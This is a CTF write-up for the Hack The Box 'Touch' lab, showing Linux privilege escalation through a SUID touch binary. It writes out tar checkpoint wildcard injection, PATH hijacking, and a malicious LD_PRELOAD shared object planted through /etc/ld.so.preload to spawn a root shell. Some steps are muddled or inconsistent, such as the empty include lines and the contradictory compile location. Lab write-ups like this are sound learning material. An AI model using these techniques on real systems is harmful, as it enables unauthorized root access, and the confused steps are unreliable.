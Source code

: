# touch-box
# Touch-HTB-writeup
This is an writeup for the hack the box touch

🚩 Hack The Box: Touch - Full Write-Up

Challenge Description:
"Push me, and then just touch me, till I can get my, Satisfaction!"

This hinted at something related to the touch command, likely combined with privilege escalation.

1️⃣IInitial Recon & Enumeration

The Hack the Box touch reavealed an Host IP and Port Address which we can connect with using utility tools like netcat and telnet for network communication.

 ![image](https://github.com/user-attachments/assets/2b986352-6530-43d1-a1e2-6a7e24b89349)

Nmap scan of the target only revealed one open port which we could connect to

![image](https://github.com/user-attachments/assets/0165c26f-f255-4704-9f17-c7ceea7f6de5)

We started with a foothold as the low-privileged user ctf. First, we checked:
 ![image](https://github.com/user-attachments/assets/7ebf6b95-0ee9-412d-91c2-535175dd2e9b)

SUID binaries:**

find / -perm -4000 2>/dev/null
The key finding:

-rwsr-sr-x 1 root root 97152 Feb 28  2019 /bin/touch

 ![image](https://github.com/user-attachments/assets/71892a3c-3d19-4423-af21-ab99ec1678be)


✅ Interesting: /bin/touch has the SUID bit set — it runs as root.

We also explored /usr/bin and /bin to check available binaries for potential exploitation (gzip, tar, zcat, etc.).

2️⃣ Compression Utility & Tar Checkpoint Exploit

We attempted a tar --checkpoint-action exploit, where tar can execute a script after processing files:

Steps:

touch /tmp/--checkpoint=1
touch "/tmp/--checkpoint-action=exec=sh /home/ctf/exploit.sh"
echo '#!/bin/bash' > /home/ctf/exploit.sh
echo '/bin/bash -p' >> /home/ctf/exploit.sh
chmod +x /home/ctf/exploit.sh
tar cf archive.tar *

🔍 Idea: If a cron job or script runs tar as root, it might trigger the exploit.

❌ Result: Nothing happened because no automated tar process was running as root.

3️⃣ PATH Hijacking Attempts

We tried PATH hijacking by creating a fake touch binary and setting the PATH to favor /tmp:

echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/touch
chmod +x /tmp/touch
export PATH=/tmp:$PATH

We hoped a privileged script would unknowingly call touch from our PATH.

❌ Result: No success; nothing called our fake binary.

4️⃣ Direct File Overwrite Tricks

We tried overwriting a root-owned file using:

cat exploit.sh | /bin/touch /tmp/root_shell
Using dd:

dd if=/home/ctf/exploit.sh of=/tmp/root_shell conv=notrunc
 ![image](https://github.com/user-attachments/assets/da5428b5-0be5-4fd1-91cc-1d3a8a7b0a4c)

❌ Result: Permission denied — expected since SUID binaries don’t give root write access to arbitrary files.

5️⃣ LD\_PRELOAD Attack 

We realized LD\_PRELOAD is a powerful vector.

LD\_PRELOAD allows loading a shared library before others, letting us hijack functions in binaries.
We wrote a malicious shared object that escalates privileges:

#include
#include
#include
#include

void _init() {
    unsetenv("LD_PRELOAD"); // Avoid loops
    setuid(0);
    setgid(0);
    system("/bin/bash -p"); // Root shell
}

We compiled it locally on the machine

gcc -fPIC -shared -o preload.so preload.c -nostartfiles

Copied the output file by first encoding it using base64 and decoding it on local machine utility base64 tool

This was done locally reason for this is there is no gcc compiler on target HTB machine.
![image](https://github.com/user-attachments/assets/a3199716-edb0-4c6d-aa12-4e9a76cce9fc)

 w

Then ran:

Created ld.so.preload with

touch ld.so.preload

Used umask to make it writable : umask 0000

Wrote path to /etc/ld.so.preload: echo /tmp/preload.so > /etc/ld.so.preload 

Triggered SUID binary: touch

![image](https://github.com/user-attachments/assets/da90e452-125a-436b-8e07-bf9b84f36036)
 
🔎 Result:
If the SUID binary honored LD\_PRELOAD (which is rare for SUID binaries and this would escalate to root.)

Result: popped a root shell!

We’re IN the root, Only thing left is now to switch to root and grab the flag.

🚀 Conclusion

By chaining together file permission tricks, SUID binary analysis, and dynamic library preloading, we successfully escalated from ctf to root, highlighting real-world privilege escalation paths.


